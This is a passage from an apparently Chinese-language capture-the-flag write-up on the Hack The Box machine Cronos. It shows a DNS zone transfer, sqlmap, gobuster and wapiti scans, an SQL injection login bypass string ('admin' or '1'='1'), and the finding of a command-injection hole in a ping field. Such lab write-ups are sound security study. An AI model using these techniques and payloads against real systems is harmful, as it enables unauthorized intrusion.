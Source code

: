 NS记录，给出一个域名，查由哪些域名服务器进行解析。诸如此类。

#### dig查询结果

```
; <<>> DiG 9.10.3-P4-Debian <<>> @10.10.10.13 axfr cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 298 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Sat Mar 16 11:13:20 +08 2019
;; XFR size: 7 records (messages 1, bytes 203)

```
`echo 10.10.10.13 admin.cronos.htb >> /etc/hosts`

访问http://admin.cronos.htb，发现一个登陆表单。

burp抓包，发现是明文

手动尝试一次：Your Login Name or Password is invalid

sqlmap尝试注入：sqlmap -r 1.req -p username --batch

sqlmap -r 1.req -p password --batch

gobuster -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

wapiti -u http://admin.cronos.htb/

---

```
echo 10.10.10.13 www.cronos.htb >> /etc/hosts
echo 10.10.10.13 ns1.cronos.htb >> /etc/hosts
ns1.cronos.htb
www.cronos.htb
```
nothing useful

---

admin' or '1'='1
123456

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/1.PNG)

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/2.PNG)

到此为止，思路十分清晰，命令执行漏洞。
ping -c 1 ip
